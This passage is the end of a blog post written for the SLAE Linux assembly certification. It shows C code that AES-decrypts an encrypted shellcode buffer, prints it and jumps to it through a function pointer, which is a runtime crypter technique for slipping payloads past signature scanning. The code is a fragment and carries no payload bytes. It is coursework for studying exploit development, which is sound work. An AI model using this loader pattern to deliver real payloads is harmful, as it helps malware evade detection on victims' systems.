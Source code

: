 ```c
  strncpy(buffer, encr_shellcode, buffer_len);

  int (*ret)() = (int(*)())buffer;

  // Display the encrypted shellcode
  printf("\n==Encrypted Shellcode==\n");
  for(ctr=0;ctr<shellcode_len;ctr++){
	printf("\\x%02x", encr_shellcode[ctr]&0xff);
  }
  printf("\n");

  // Decrypt Buffer
  AES_DECRYPT(buffer, buffer_len, IV, key, keysize);
  printf("\n==Decrypted Shellcode==\n");
  for(ctr=0;ctr<shellcode_len;ctr++){
	printf("\\x%02x", buffer[ctr]&0xff);
  }

  printf("\n\n==Jumping to Decrypted Payload==\n");
  ret();
}
```

Lets see the Decrypter in action. Compiling and executing the Decrypter.
![asn-7-decrypter-out](/assets/SLAE-x86/asn-7-decrypter-out.PNG)

And we are done :)

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: **SLAE-933**
